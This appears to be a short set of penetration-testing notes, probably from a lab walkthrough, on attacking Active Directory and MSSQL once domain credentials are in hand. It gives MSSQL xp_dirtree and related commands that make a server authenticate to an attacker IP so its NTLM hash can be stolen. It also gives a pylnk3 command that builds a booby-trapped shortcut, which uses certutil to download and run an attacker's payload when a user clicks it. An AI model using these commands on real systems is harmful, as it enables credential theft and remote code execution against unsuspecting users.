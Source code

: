 
Having domain credentials opens up a whole new world of enumeration possibilities:

- Gathering Bloodhound data
- Gathering Certipy data
- Check LDAP signing
- Check Machine Account Quota
- Check for kerberoastable accounts




## Steal NTLM hash 

```MSSQL
xp_dirtree '\\<attacker_IP>\any\thing'
exec master.dbo.xp_dirtree '\\<attacker_IP>\any\thing'
EXEC master..xp_subdirs '\\<attacker_IP>\anything\'
EXEC master..xp_fileexist '\\<attacker_IP>\anything\'

SELECT * FROM sys.dm_os_file_exists('\\10.8.0.148\re\con');
```


## LNK File Attack 

Cool ! We got write access in the Custom Folder of the public Share . which is the `Folder for custom shortcuts & internet links.`

We can craft our lnk files , So if some users being curious enough to **click** on shortcut files

--> We can grab hash on responder / steam ntlm , but that hash wasn't crackable !

--> We can relay authentication , But we cant do in this situation !

-->  We can craft lnk to download and run our beacon on behalf of that user !

```
└─# pylnk3 create C:/Windows/System32/cmd.exe -a "/c certutil.exe -f -split -urlcache http://10.8.0.148/hashgrab.py & " check.lnk
```
